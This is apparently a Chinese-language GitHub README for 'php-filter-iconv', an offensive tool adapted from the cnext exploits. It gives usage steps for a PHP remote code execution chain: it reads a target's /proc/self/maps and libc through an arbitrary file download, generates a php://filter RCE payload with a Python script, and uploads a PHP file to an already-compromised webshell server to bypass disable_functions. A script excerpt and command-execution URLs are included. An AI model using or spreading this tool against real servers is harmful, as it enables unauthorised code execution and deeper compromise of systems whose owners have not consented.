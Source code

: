 # php-filter-iconv
修改自
https://github.com/ambionics/cnext-exploits

php-filter-iconv.py用法
通过任意文件下载获取目标的/proc/self/maps和libc-2.x.so，在本机和php-filter-iconv.py放在同目录，然后运行脚本即可生成php://filter/的RCE payload，详细参数调整如下代码即可。
```
.......
maps_path = './maps'
cmd = 'echo 123 > 1.txt'
sleep_time = 1
padding = 20

if not os.path.exists(maps_path):
    exit("[-]no maps file")

regions = get_regions(maps_path)
heap, libc_info = get_symbols_and_addresses(regions)

libc_path = libc_info.path
print("[*]download: "+libc_path)

libc_path = './libc-2.23.so'
.......
```

php-filter-iconv.php用法
直接上传到已经获得webshell的服务器进行bypass disable_functions，然后访问如下链接检测环境
/php-filter-iconv.php?cmd=curl 127.0.0.1:8888&run=0
然后访问如下链接进行命令执行，一切顺利命令会执行成功，服务器会延时几分钟报503
/php-filter-iconv.php?cmd=curl 127.0.0.1:8888&run=1

